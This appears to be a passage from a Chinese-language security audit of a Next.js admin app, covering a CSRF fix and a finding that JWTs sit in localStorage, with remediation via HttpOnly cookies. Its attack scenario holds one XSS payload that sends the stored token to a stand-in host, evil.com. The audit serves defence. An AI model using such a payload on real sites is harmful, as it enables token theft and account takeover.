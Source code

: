 2. 前端在请求头携带CSRF Token
   ```typescript
   const csrfToken = getCookie('csrf_token')
   fetch('/api/orders/123', {
     method: 'PATCH',
     headers: {
       'x-csrf-token': csrfToken
     }
   })
   ```

**工作量估计**: 2-3天

---

#### 2. 前端JWT存储不安全 (CVSS 6.8 - MEDIUM)

**位置**:
- `src/app/admin/layout.tsx:21` - `localStorage.getItem('token')`
- 所有管理员页面组件

**问题描述**:
- JWT Token存储在localStorage中，易受XSS攻击窃取
- 虽然已有sanitizeText()防护，但仍存在未覆盖的XSS攻击面

**攻击场景**:
```javascript
// 攻击者注入XSS代码（假设某处未清理）
<script>
  fetch('https://evil.com/steal?token=' + localStorage.getItem('token'))
</script>
```

**影响**:
- 攻击者窃取JWT后可完全控制用户账户
- 管理员账户被盗用将导致平台级安全事故

**修复建议** (P0 - 紧急):
1. 迁移到HttpOnly Cookie + SameSite=Strict
   ```typescript
   // 登录成功后设置Cookie（服务端）
   import { serialize } from 'cookie'

   export async function POST(request: NextRequest) {
     const token = generateToken(user)

     return NextResponse.json({ success: true }, {
       headers: {
         'Set-Cookie': serialize('token', token, {
           httpOnly: true,    // 防止JavaScript访问
           secure: true,      // 仅HTTPS
           sameSite: 'strict', // 防止CSRF
           path: '/',
           maxAge: 7 * 24 * 60 * 60 // 7天
         })
       }
     })
   }
   ```
